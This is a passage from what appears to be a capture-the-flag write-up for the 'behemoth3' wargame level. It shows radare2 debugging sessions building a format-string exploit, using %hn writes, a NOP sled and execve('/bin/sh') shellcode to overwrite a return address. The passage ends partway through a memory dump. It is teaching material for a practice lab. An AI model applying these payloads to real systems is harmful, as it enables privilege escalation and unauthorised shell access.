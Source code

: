 ```bash
behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "\xbe\xd5\xff\xff" + "%08x."*4 + "%10u" + "%hn" + "%hn"' > input.txt
behemoth3@behemoth:/tmp/smhbehemoth3$ r2 -de dbg.profile=profile.rr2 /behemoth/behemoth3 
Process with PID 30076 started...
= attach 30076 30076
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
 -- Enable the PAGER with 'e scr.pager=less -R'
[0xf7fdaa20]> db 0x080484ca
[0xf7fdaa20]> dc
Identify yourself: Welcome, ��������000000c8.f7fc75a0.ffffd5ac.f7fe2fc9.         0
hit breakpoint at: 80484ca
[0x080484ca]> px 200 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd510  28d5 ffff c800 0000 a075 fcf7 acd5 ffff  (........u......
0xffffd520  c92f fef7 0000 0000 bcd5 ffff bed5 ffff  ./..............
0xffffd530  2530 3878 2e25 3038 782e 2530 3878 2e25  %08x.%08x.%08x.%
0xffffd540  3038 782e 2531 3075 2568 6e25 686e 0a00  08x.%10u%hn%hn..
0xffffd550  0000 0000 0100 0000 18d9 fff7 9fd5 ffff  ................
0xffffd560  9ed5 ffff 0100 0000 bf00 0000 3369 eaf7  ............3i..
0xffffd570  9ed5 ffff 9cd6 ffff e000 0000 0000 0000  ................
0xffffd580  00d0 fff7 18d9 fff7 a0d5 ffff 6282 0408  ............b...
0xffffd590  0000 0000 34d6 ffff 0070 fcf7 87c2 0000  ....4....p......
0xffffd5a0  ffff ffff 2f00 0000 c83d e2f7 a851 fdf7  ..../....=...Q..
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 3600 3600  .....p......6.6.
0xffffd5c0  0100 0000 0000 0000 3058 e4f7 2b85 0408  ........0X..+...
0xffffd5d0  0100 0000 94d6 ffff                      ........
[0x080484ca]> 
```
We change the lower 16-bits to a value of 36 and the upper 16-bits to 36 as well. However, we need to change the two shorts separately. We can do that by adding in another "%u" between the two "%hn"s. However, we also need to add 4 junk bytes between the two adddresses at the beginning of our input for the %u to read. Otherwise, the second %hn will actually change the value at 0xffffd5c0.

At this point, let's add in our shellcode and NOP sled to the end of our input and then redetermine where the return address sits on the stack. After that, we can modify our "%u"s to be the appropriate values that causes the return address to point to one of the NOPs.

```bash
behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "AAAA" + "\xbe\xd5\xff\xff" + "%08x.%08x.%08x.%08x.%10u.%hn%10u%hn" + "\x90"*50 + "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"' > input.txt
behemoth3@behemoth:/tmp/smhbehemoth3$ r2 -de dbg.profile=profile.rr2 /behemoth/behemoth3 
Process with PID 30085 started...
= attach 30085 30085
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
 -- Enable ascii-art jump lines in disassembly by setting 'e asm.lines=true'. asm.linesout and asm.linestyle may interest you as well
[0xf7fdaa20]> db 0x080484ca
[0xf7fdaa20]> dc
Identify yourself: Welcome, ����AAAA����000000c8.f7fc75a0.ffffd5ac.f7fe2fc9.         0.1094795585��������������������������������������������������j1X̀�É�jFX̀1�Ph//shh/binT[PS��1Ұ

hit breakpoint at: 80484ca
[0x080484ca]> px 400 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd510  28d5 ffff c800 0000 a075 fcf7 acd5 ffff  (........u......
0xffffd520  c92f fef7 0000 0000 bcd5 ffff 4141 4141  ./..........AAAA
0xffffd530  bed5 ffff 2530 3878 2e25 3038 782e 2530  ....%08x.%08x.%0
0xffffd540  3878 2e25 3038 782e 2531 3075 2e25 686e  8x.%08x.%10u.%hn
```